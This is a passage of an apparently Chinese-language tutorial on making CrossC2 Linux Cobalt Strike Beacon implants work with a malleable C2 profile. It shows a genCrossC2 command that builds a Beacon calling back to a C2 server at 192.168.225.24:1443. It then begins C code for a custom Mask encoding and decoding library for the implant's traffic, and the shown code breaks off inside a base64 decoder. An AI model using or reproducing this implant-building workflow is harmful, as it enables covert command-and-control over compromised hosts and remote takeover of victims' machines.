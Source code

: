 
指定.so文件生成Beacon文件

    
    
    ./genCrossC2.MacOS 192.168.225.24 1443 .cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 ./test  
    

运行上线，此时在带C2-Profile的情况下能正常上线CrossC2的Beacon。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100048.png)

## 实现方式2  

在不去掉C2-Profile中的Mask编码，需要自己实现Mask的编码和解码逻辑方式如下。

非专业写c全靠临时百度硬编出来的，轻点喷。

    
    
    #include <stdio.h>  
    #include <stdlib.h>  
    #include <string.h>  
    #include <unistd.h>  
    #include <time.h>  
      
    static const char *BASE64_STR_CODE = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";  
    static const short BASE64_INT_CODE[] = {-1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,  
                                            -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,  
                                            -1, -1, -1, 62, -1, -1, -1, 63, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, -1, -1,  
                                            -1, -1, -1, -1, -1, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16,  
                                            17, 18, 19, 20, 21, 22, 23, 24, 25, -1, -1, -1, -1, -1, -1, 26, 27, 28, 29, 30,  
                                            31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50,  
                                            51};  
    static const short BASE64_INT_LENGTH = sizeof(BASE64_INT_CODE) / sizeof(BASE64_INT_CODE[0]);  
      
    void base64_decode_to_ascii(char *base64Str, long res[]) {  
        int i = 0;  
        int j = 0;  
        int v1 = 0;  
        int v2 = 0;  
        int v3 = 0;  
        int base64StrLength = strlen(base64Str);  
      
        for (i = 0; i < base64StrLength; ++i) {  
            char ascii = base64Str[i];  
            if (ascii == 0x20 | ascii == '\n' | ascii == '\t') {  
                break;  
            } else {  
                if (ascii == '=') {  
                    ++v3;  
                    v1 <<= 6;  
                    ++v2;  
                    switch (v2) {  
                        case 1:  
                        case 2:  
                            return;  
                        case 3:  
                            break;  
                        case 4:  
                            res[j++] = (char) (v1 >> 16);  
                            if (v3 == 1) {  
                                res[j++] = (char) (v1 >> 8);  
                            }  
                            break;  
                        case 5:  